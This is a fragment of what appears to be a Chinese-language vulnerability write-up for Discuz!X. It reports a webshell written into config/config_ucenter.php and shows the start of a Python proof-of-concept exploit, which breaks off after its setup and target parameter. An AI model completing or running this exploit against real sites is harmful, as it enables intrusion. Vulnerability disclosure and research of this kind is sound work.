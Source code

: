 在`config/config_ucenter.php`中已经写入了webshell。

![image](img/346135d3e7dd9cdea848437503543e1d.png)

![image](img/2c40d20a4bbd4cf40b6aa54d1a76e406.png)

### poc

```
#!/usr/bin/env python3
import base64
import random
import re
import string

import requests

sess = requests.Session()

randstr = lambda len=5: ‘’.join(random.choice(string.ascii_lowercase) for _ in range(len))

##################################################

########## Customize these parameters ############

target = ‘[http://localhost/discuzx](http://localhost/discuzx)’

```